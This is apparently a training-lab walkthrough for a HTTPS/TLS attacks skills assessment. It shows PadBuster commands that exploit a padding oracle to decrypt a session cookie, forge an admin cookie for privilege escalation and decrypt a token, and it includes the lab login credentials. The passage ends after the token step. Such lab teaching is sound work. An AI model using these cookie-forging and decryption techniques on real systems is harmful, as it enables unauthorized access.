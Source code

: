 # Skills Assessment

This skills assessment for the HTTPS/TLS Attacks module requires you to identify and exploit vulnerabilities in a given TLS configuration. You will need to utilize the knowledge gained from this module to:

1.  **Enumerate TLS Configuration:** Use tools like `testssl.sh` to thoroughly audit the target's TLS setup, including supported versions, cipher suites, certificates, and potential vulnerabilities.
2.  **Identify Weaknesses:** Pinpoint misconfigurations or vulnerable implementations (e.g., outdated TLS versions, weak cipher suites, susceptible to padding oracle attacks or Heartbleed).
3.  **Formulate an Attack Plan:** Based on identified weaknesses, devise a strategy to exploit the TLS vulnerabilities.
4.  **Execute Exploits:** Implement and execute the chosen attacks (e.g., using TLS-Breaker, `arpspoof`, `bettercap`) to achieve specific objectives, such as decrypting traffic or obtaining sensitive information.
5.  **Provide Recommendations:** Suggest appropriate countermeasures and best practices to remediate the identified vulnerabilities and enhance TLS security.

The overall goal is to demonstrate your ability to assess, exploit, and secure TLS configurations in a practical scenario. Good luck!

## Walkthrough

After spawning the target machine, you need to visit its root webpage and log in with the credentials `htb-stdnt:Academy_student!`.

Next, navigate to the `/admin` page by clicking on "Admin Area". Intercept the request with Burp Suite and send it to Repeater. You will notice that the "user" cookie is lower-case hex encoded.

When altering the cookie's value (e.g., to "invalid"), the response will return "Decryption failed". This error message indicates a Padding Oracle vulnerability. Use `PadBuster` on the Padding Oracle at the `/admin` endpoint to decrypt the cookie. The block size needs to be set to 16, the encoding to lowercase hexadecimal (i.e., `1` in PadBuster), and the error message to "Decryption failed". The decrypted value of the "user" cookie should be `{"user": "htb-stdnt", "role": "user"}`.

```bash
padbuster http://STMIP:STMPO/admin "963882e67113e76587b1e0c129ab8485e072a5f7af71c8c7858473b917772acd212fedc54303f1efd41da3ca27360cddc699851cdb81466afaf6f7d112d964ed" 16 -encoding 1 -cookies "user=963882e67113e76587b1e0c129ab8485e072a5f7af71c8c7858473b917772acd212fedc54303f1efd41da3ca27360cddc699851cdb81466afaf6f7d112d964ed" -error "Decryption failed"
```

Subsequently, encrypt the cookie with the value `{"user": "admin", "role": "admin"}` to attempt privilege escalation. This will provide you with an encrypted cookie value.

```bash
padbuster http://STMIP:STMPO/admin "963882e67113e76587b1e0c129ab8485e072a5f7af71c8c7858473b917772acd212fedc54303f1efd41da3ca27360cddc699851cdb81466afaf6f7d112d964ed" 16 -encoding 1 -cookies "user=963882e67113e76587b1e0c129ab8485e072a5f7af71c8c7858473b917772acd212fedc54303f1efd41da3ca27360cddc699851cdb81466afaf6f7d112d964ed" -error "Decryption failed" -plaintext '{"user": "admin", "role": "admin"}'
```

Use the newly encrypted cookie in the `/admin` endpoint. You will then attain a token.

Afterward, navigate to `/token` by clicking on "Redeem Token". Supply the previously attained token, making sure Burp Suite is intercepting the request to send it to Repeater.

When an incorrect/invalid token value is supplied, the response will return an error message stating "Decryption Error. Invalid Token!". Use `PadBuster` to decrypt the token value. Unlike before, the block size needs to be set to 8, and the `-post` option must be used (since it is a POST request).

```bash
padbuster http://STMIP:STMPO/token "0e0d74356da663454101d805584b6190eb57e7e30d9817ecfbf7973c9ab5df54f46a586de5c8693203896946088172a3" 8 -encoding 1 -post "token=0e0d74356da663454101d805584b6190eb57e7e30d9817ecfbf7973c9ab5df54f46a586de5c8693203896946088172a3" -error "Decryption Error. Invalid Token!"
```
